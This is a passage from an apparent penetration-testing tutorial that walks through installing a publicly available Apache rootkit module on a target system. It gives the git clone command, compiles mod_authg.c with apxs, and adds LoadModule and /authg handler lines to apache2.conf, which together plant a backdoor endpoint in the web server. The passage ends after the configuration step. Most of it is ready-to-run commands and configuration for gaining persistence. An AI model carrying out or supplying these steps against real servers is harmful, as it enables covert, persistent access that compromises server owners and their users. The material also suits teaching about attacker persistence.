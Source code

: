 1. The next step will involve cloning the apache-rootkit repository on to the target system, this can be done by running the following command:

        git clone https://github.com/ChristianPapathanasiou/apache-rootkit.git

1. After cloning the repository you will need to navigate to the “apache-rootkit” directory:

        cd apache-rootkit

1. We can now compile the module by running the following command:

        apxs -c -i mod_authg.c

    As shown in the following screenshot, this will compile the module and copy over the module to the /usr/lib/apache2/modules directory.

    ![apxs output](apxs-output.png "apxs output")

1. The next step will involve loading the “mod_authg.so” module in the Apache2 configuration file, this can be done by running the following command:

        vim /etc/apache2/apache2.conf

1. After which, you will need to add the following configuration at the top of the file to load the module correctly:

    {{< file "/etc/apache2/apache2.conf" >}}
LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so
<Location /authg>
SetHandler authg
</Location>
{{< /file >}}
